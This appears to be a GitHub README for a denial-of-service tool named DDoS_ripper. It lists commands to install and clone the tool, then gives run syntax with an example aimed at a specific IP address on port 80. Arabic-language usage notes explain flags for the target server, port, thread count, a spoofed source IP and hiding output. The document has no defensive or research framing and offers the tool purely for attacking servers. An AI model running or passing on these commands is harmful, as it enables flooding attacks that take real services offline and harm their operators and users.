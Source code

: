 # DDoS_ripper
![IMG_20240417_215500_616](https://github.com/PRIVATE001/DDoS_ripper/assets/155662747/dc026854-6818-43f9-b472-ba5ea82418f0)

```
pkg install git
pkg install python
git clone https://github.com/PRIVATE001/DDoS_ripper.git
cd DDoS_ripper
python KlarDdos.py [-i] [-p] [-l]
```
```
e.g)
 python KlarDdos.py -i 92.204.214.136 -p 80 -l  2 
```
Usage Information :
│ -h : للمساعده
│ -i : اي بي السيرفر
│ -p : البورت المراد استهدافه
│ -l : عدد نطاقات التنفيذ
│ -f : الايبي الزائف اختياري
│ -d : اخفاء الرسائل المبثقه
مثال :
 python KlarDdos.py -i 92.204.214.136 -p 80 -l  2 
 ```

